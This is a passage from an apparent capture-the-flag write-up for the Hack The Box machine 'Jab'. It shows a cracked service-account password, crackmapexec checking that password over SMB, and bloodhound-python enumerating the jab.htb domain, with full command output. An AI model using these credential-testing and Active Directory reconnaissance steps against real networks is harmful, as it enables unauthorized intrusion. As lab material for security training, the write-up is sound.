 ![](img/jab23.png)

The cracking worked: the password of the user 'svc_openfire' is '`!@#$%^&*(1qazxsw`'. They are valid credentials.

```shell
$ crackmapexec smb $IP -u svc_openfire -p '!@#$%^&*(1qazxsw'
SMB         10.129.98.88    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         10.129.98.88    445    DC01             [+] jab.htb\svc_openfire:!@#$%^&*(1qazxsw
```

Bloodhound is runned remotely to get more information about the domain.

```shell
$ bloodhound-python -u 'svc_openfire' -p '!@#$%^&*(1qazxsw' -ns 10.129.98.88 -d jab.htb --zip -c All  
INFO: Found AD domain: jab.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.jab.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 502 computers
INFO: Connecting to LDAP server: dc01.jab.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 2687 users
INFO: Found 162 groups
INFO: Found 2 gpos
INFO: Found 21 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
[...]
INFO: Done in 03M 26S
INFO: Compressing output into 20240228163139_bloodhound.zip
```
